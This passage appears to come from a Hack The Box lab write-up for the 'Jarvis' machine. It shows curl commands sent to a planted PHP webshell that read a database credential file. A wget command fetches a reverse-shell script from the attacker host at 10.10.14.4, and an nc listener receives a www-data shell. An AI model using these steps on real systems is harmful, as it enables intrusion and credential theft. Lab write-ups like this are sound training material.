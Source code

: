 Double check the `DBadmin`'s password.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=cat%20connection.php
1       2       3       4       <?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
        6       7
```

Using this webshell, I can upload `php-reverse-shell.php` and make it run to connect reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=wget%20http://10.10.14.4:8000/rshell.php
1       2       3       4               6       7
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9000 
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 51228
Linux jarvis 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux
 11:40:16 up 12:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```

### phpmyadmin

Another approach is using the DB credential we found.
There probably is "phpMyAdmin" page since it's running on PHP backend.

![](attachments/jarvis_6.png)
